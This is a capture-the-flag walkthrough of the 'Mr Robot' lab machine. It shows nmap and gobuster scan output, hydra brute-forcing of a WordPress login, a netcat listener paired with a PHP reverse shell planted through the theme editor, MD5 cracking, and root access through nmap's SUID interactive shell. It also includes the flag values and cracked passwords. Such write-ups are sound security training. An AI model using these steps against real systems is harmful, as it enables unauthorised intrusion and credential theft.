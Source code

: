 # Mr Robot CTF

**Title:** Mr Robot<br>
**IP Address:** 10.10.221.177<br>

## Scans

### NMAP Scan
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-18 21:41 PST
Nmap scan report for 10.10.221.177 (10.10.221.177)
Host is up (0.27s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.49 seconds

```

### GoBuster Scan
```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.221.177
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/06/18 21:55:23 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 236] [--> http://10.10.221.177/images/]
/blog                 (Status: 301) [Size: 234] [--> http://10.10.221.177/blog/]  
/rss                  (Status: 301) [Size: 0] [--> http://10.10.221.177/feed/]    
/sitemap              (Status: 200) [Size: 0]                                     
/login                (Status: 302) [Size: 0] [--> http://10.10.221.177/wp-login.php]
/0                    (Status: 301) [Size: 0] [--> http://10.10.221.177/0/]          
/feed                 (Status: 301) [Size: 0] [--> http://10.10.221.177/feed/]       
/video                (Status: 301) [Size: 235] [--> http://10.10.221.177/video/]    
/image                (Status: 301) [Size: 0] [--> http://10.10.221.177/image/]      
/atom                 (Status: 301) [Size: 0] [--> http://10.10.221.177/feed/atom/]  
/wp-content           (Status: 301) [Size: 240] [--> http://10.10.221.177/wp-content/]
/admin                (Status: 301) [Size: 235] [--> http://10.10.221.177/admin/]     
/audio                (Status: 301) [Size: 235] [--> http://10.10.221.177/audio/]     
/wp-login             (Status: 200) [Size: 2613]                                      
/intro                (Status: 200) [Size: 516314]                                    
/css                  (Status: 301) [Size: 233] [--> http://10.10.221.177/css/]       
/rss2                 (Status: 301) [Size: 0] [--> http://10.10.221.177/feed/]        
/license              (Status: 200) [Size: 309]                                       
/wp-includes          (Status: 301) [Size: 241] [--> http://10.10.221.177/wp-includes/]
/js                   (Status: 301) [Size: 232] [--> http://10.10.221.177/js/]         
/Image                (Status: 301) [Size: 0] [--> http://10.10.221.177/Image/]        
/rdf                  (Status: 301) [Size: 0] [--> http://10.10.221.177/feed/rdf/]     
/page1                (Status: 301) [Size: 0] [--> http://10.10.221.177/]              
/readme               (Status: 200) [Size: 64]                                         
/robots               (Status: 200) [Size: 41]
```

## Flags

### Flag 1
1. After the GoBuster scan, `/robots` directory was found. It shows the content:
  ```
  User-agent: *
  fsocity.dic
  key-1-of-3.txt
  ```
2. Visting the page on the directory `/key-1-of-3.txt` gives the first flag:
  ```
  073403c8a58a1f80d943455fb30724b9
  ```

<br>
### Flag 2
1. After the GoBuster scan, a `/login` page and `/robots` directory was found. The `/robots` directory shows the content:
  ```
  User-agent: *
  fsocity.dic
  key-1-of-3.txt
  ```
2. Download `fsocity.dic` by going to the directory `/fsocity.dic` and saving the raw page.
3. Brute force username and password on the `/login` page using hydra.
 
 ***For username***
  ```
  $ hydra -L fsocity.dic -p any 10.10.221.177 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30

  [80][http-post-form] host: 10.10.221.177   login: Elliot   password: any
  ```
  ***For password***
  ```
  $ hydra -l Elliot -P fsocity.dic 10.10.221.177 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username" -t 30
  

  ```
  ***Credentials***: `Elliot:ER28-0652`

4. Start a `netcat` listener. Use a port that is usually trusted by firewalls.
  ```
  $ rlwrap nc -lvnp 1520
  ```
5. Use a PHP reverse shell and set the corresponding listener IP address and port.
6. In the admin Dashboard, go to Appearance > Editor, update a PHP file with the code from the PHP reverse shell (e.g. `archive.php`).
7. Load the edited PHP file (e.g. if using `archive.php`, load the URL `http://10.10.221.177/wp-content/themes/twentyfifteen/archive.php`). Reverse shell must now be activated.
8. Go to `/home/robot` directory and open `password.raw-md5` file.
  ```
  robot:c3fcd3d76192e4007dfb496cca67e13b
  ```
9. Decrypt the MD5 hash.
  ```
  Using CrackStation (crackstation.net)

                Hash	            Type	        Result
  c3fcd3d76192e4007dfb496cca67e13b	md5	    abcdefghijklmnopqrstuvwxyz
  ```
10. Spawn TTY shell in the target machine using Python.
  ```
  $ python -c 'import pty; pty.spawn("/bin/sh")'
  ```
11. Login to `robot` account using `su robot` with the password: `abcdefghijklmnopqrstuvwxyz`.
 
 ***Credentials:*** `robot:abcdefghijklmnopqrstuvwxyz`
12. Go to `/home/robot` directory and open `key-2-of-3.txt` file.
  ```
  822c73956184f694993bede3eb39f959
  ```

<br>
### Flag 3
1. While using the account `robot`. Gain priveleged access using SUID binary from `nmap`.

  Note: This was found by locating files with SUID binary bit turned on using the command:
  ```
  $ find / -perm +6000 2> /dev/null | grep '/bin/'
  ```
2. Spawn a shell using NMAP (refer to instructions at gtfobins).
  ```
  $ nmap --interactive
  nmap> !sh
  ```
3. Now, as the `root` user, `/root` directory is now accessible. The file `key-3-of-3.txt` is located in the same directory and can be read.
  ```
  04787ddef27c3dee1ee161b21670b4e4
  ```
